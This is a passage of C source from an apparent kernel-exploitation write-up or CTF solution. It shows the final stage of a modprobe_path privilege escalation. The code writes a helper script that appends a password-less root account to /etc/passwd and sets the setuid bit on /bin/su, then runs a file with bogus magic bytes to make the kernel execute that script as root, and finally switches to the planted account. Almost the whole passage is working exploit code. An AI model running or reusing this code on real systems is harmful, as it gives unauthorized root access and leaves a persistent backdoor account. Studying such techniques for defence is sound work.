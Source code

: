 ```c
        "echo 'vjp::0:0:root:/:/bin/sh' >> /etc/passwd\n"
        "/bin/chmod +s /bin/su"
    );
    close(vjpfd);
    if(chmod("/home/user/vjp",0777))
        errExit("chmod");

    //Trigger call call_modprobe
    int magic = open("/home/user/pwn",O_CREAT | O_RDWR);
    if(magic < 0)
        errExit("open /home/user/pwn");
    dprintf(magic,"\x13\x37\x42\x42");
    close(magic);
    if(chmod("/home/user/pwn",0777))
        errExit("chmod");

    //Root
    system("/home/user/pwn");
    system("cat /etc/passwd");
    system("su vjp");
    }
```
![image](https://github.com/robbert1978/kernel_for_fun/assets/31349426/536b1450-eca2-408a-8631-fd5610fe2c41)



